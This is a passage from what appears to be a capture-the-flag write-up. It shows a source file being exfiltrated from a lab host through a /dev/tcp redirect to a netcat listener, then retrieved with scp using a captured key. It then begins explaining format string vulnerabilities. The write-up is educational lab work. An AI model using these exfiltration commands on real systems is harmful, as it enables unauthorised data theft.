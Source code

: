 

    www-data@pki:~$ cat /usr/src/ersatool.c > /dev/tcp/192.168.254.2/4444



It arrives at web:



    www-data@web:~$ /tmp/nc -lnvp 4444 > /tmp/0xdf
    Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    Ncat: Connection from 192.168.254.3.
    Ncat: Connection from 192.168.254.3:45386.



Now I'll pull that to my host:



    oxdf@parrot$ scp -i ~/keys/static-www-data-172.20.0.10 www-data@172.20.0.10:/tmp/0xdf ersatool.c
    0xdf                                                 100% 5729   272.0KB/s   00:00



I'll do the same with `ersatool`, and then check the hashes on both:



    www-data@pki:~$ md5sum /usr/bin/ersatool /usr/src/ersatool.c 
    9ac82feda66338eafaf2dc6e1d602131  /usr/bin/ersatool
    d258f3c0bf1945e43314617de8f83dd1  /usr/src/ersatool.c





    oxdf@parrot$ md5sum ersatool*
    9ac82feda66338eafaf2dc6e1d602131  ersatool
    d258f3c0bf1945e43314617de8f83dd1  ersatool.c



### Format String Exploit

#### Background

I always recommend the three part video series by LiveOverflow on format
strings as a good place to get started
([1](https://www.youtube.com/watch?v=0WvrSfcdq1I),
[2](https://www.youtube.com/watch?v=kUk5pw4w0h4), and
[3](https://www.youtube.com/watch?v=t1LH9D5cuK4)). I also went a bit
into this in
[Rope](/htb-rope.md#format-string-vulnerabilities).

A format string vulnerability occurs when a program calls a function
like `printf` on just a variable. The idea is that the first argument
for `printf` will be a format string, containing 0 or more "specifiers"
(described [here](https://www.cplusplus.com/reference/cstdio/printf/)).
So you might see something like `printf("hello %s", name)` used to print
a user's name. If just a variable is passed, while the intention is to
just print the variable, the result is that the variable is processed
just like the static string above. Furthermore, if the given string has
more specifiers than are giving, it will just continue reading them
memory from the stack where they would have been had they been passed.
This kind of mismatch isn't typically coded in, but if there's a call to
`printf(variable)`, then the string in `variable` is treated as the
formatting string, which means I can leak memory.
